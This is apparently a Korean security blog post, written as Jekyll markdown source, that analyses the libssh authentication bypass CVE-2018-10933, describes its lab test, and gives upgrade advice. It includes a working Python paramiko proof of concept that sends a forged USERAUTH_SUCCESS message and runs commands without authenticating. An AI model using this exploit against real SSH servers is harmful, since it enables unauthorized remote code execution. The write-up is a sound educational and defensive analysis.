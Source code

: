 ```yaml
---
layout: post
comments: true
categories: posts
title: CVE-2018-10933 libssh authentication bypass
subtitle: This is an important security and maintenance release in order to address CVE-2018-10933.
author: cainstorm
featured-image: /images/header/header_001.jpg
tags: [vulnerability]
date-string: OCTOBER 23, 2018
---
```


<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>window.jQuery || document.write('<script src="_/js/libs/jquery-1.9.1.min.js"><\/script>')</script>

### Description
원격 로그인 프로토콜인 Secure Shell(SSH) 구축에 사용되는 모듈 libssh 이용 서버의 인증 우회공격 취약점(로그인 인증 과정 없이 원격코드 실행 가능)
공격 호스트에서 "SSH2_MSG_USERAUTH_SUCCESS" 메시지를 전송하여 이미 인증이 성공적으로 이루졌다는 패킷 전달로 인증우회
<br>
> **CVE ID : CVE-2018-10933**
> VCSS 3.X Severity and Metrics: 
> - CNA : Red Hat, Inc.
> - Base Score : 9.1 CRITICAL
> - Vector : CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N
<br>
영향받는 Version
- libssh version >= 0.6
- libssh version < 0.7.6
- libssh version < 0.8.4
<br>
해당 취약점은 libSSH가 인증을 진행하기 위해 **SSH_MSG_USERAUTH_REQUEST** 상태로 대기중 일때 PoC 코드에서 전송된 **SSH_MSG_USERAUTH_SUCCESS** 패킷을 서버가 수신하게 되면 공격자가 정상적으로 인증되었다고 판단하여 연결을 허용하게 된다.
<br>
<center>
		<img src="/images/2018-10-28/2018-10-28-vul-001.jpg">
</center>

- SSH_MSG_USERAUTH_REQUEST(50) : 클라이언트가 보내는 인증 요청 방식
- SSH_MSG_USERAUTH_FULLURE(51) : 하나 이상의 인증 방법을 요구할 경우
- SSH_MSG_USERAUTH_SUCCESS(52) : 서버가 인증을 수용

## 정상적인 인증과정
1. 클라이언트가 서버에게 인증 방법 문자열이  'none'인 SSH_MSG_USERAUTH_REQUEST 를 요청
1. 서버는 클라이언트가 보낸 사용자 이름이 유효한지 여부 확인
 - 유효하지 않을 시 SSH_MSG_USERAUTH_FAILURE를 보내고 연결 설정을 종료하며, 서버는 SSH_MSG_USERAUTH_REQUEST를 전송
1. 클라이언트는 인증 방법 중 하나를 선택하고, 선택된 인증방법과 필요한 필드와 함께 SSH_MSG_USERAUTH_REQUEST를 전송
1. 서버는 클라이언트가 보낸 사용자 이름이 유효한지 여부 확인
1. 요구된 모든 인증에 성공하면, 서버는 SSH_MSG_USERAUTH_SUCCESS 메시지를 송신하고 인증 프로토콜 종료  
 


### Testing Vulnerability 
Attacker :Kali linux (192.168.46.130)<br>
Victim : Ubuntu 16.04.6 LTS (192.168.46.137) -> Docker_apache solr 8.1.1 (172.17.0.3)


```
#!/usr/bin/python3

import sys
import paramiko
import socket

s = socket.socket()
s.connect(("192.168.46.142",2222))
m = paramiko.message.Message()
t = paramiko.transport.Transport(s)
t.start_client()
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)  // 인증 우회를 위한 코드
t._send_message(m)
c = t.open_session(timeout=5)
c.exec_command(sys.argv[1])
out = c.makefile("rb",2048)
output = out.read()
out.close()
print (output)
```

<br>
<center>
    <div class="photoset-grid-custom" data-layout="122">
        <img src="/images/2018-10-28/2018-10-28-vul-002.jpg">
        <img src="/images/2018-10-28/2018-10-28-vul-003.jpg">
        <img src="/images/2018-10-28/2018-10-28-vul-004.jpg">
		<img src="/images/2018-10-28/2018-10-28-vul-005.jpg">
        <img src="/images/2018-10-28/2018-10-28-vul-006.jpg">
    </div>
</center>
<br>
원격코드 실행 명령 중 서버와 통신 내역 확인 시, 암호화된 패킷으로 인패 원격실행 명령(hostname) 부분을 확인할 수 없으나
서버측에서 노출되는 libssh 정보 문자열 **SSH-2.0-libssh_0.8.3** 과 공격자 측에서 Poc 실행 중 사용되는 파이썬 모듈명 **paramisk** 가 확인된다.
- paramiko : 파이썬에서 가장 많이 사용되는 SSH Library 모듈(telnet 은 telnetlib)
<br>

### Solution
- 제조사 홈페이지를 참고하여 최신버전으로 보안 업데이트 수행
- 0.7.6 버전으로 업데이트(0.7번대 및 이전 버전 사용자)
- 0.8.4 버전으로 업데이트(0.8번대 및 이전 버전 사용자)

<script src="/assets/js/jquery.photoset-grid.js"></script>

<script type="text/javascript">
    $('.photoset-grid-custom').photosetGrid({
    // Set the gutter between columns and rows
    gutter: '5px',
  
    // Wrap the images in links
    highresLinks: true,
  
    // Asign a common rel attribute
    rel: 'print-gallery',

    onInit: function(){},
    
    onComplete: function(){
        // Show the grid after it renders
        $('.photoset-grid-custom').attr('style', '');
    }
});
</script>

### References
---
- https://www.guardicore.com/2018/10/libssh-new-vulnerability-allows-authentication-bypass
- https://www.kitploit.com/2018/10/libssh-scanner-script-to-identify-hosts.html
- https://koromoon.blogspot.com/2018/10/cve-2018-10933-libssh.html
- https://www.youtube.com/watch?v=ZSWQjmfcn4g
- https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=27704

---
{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
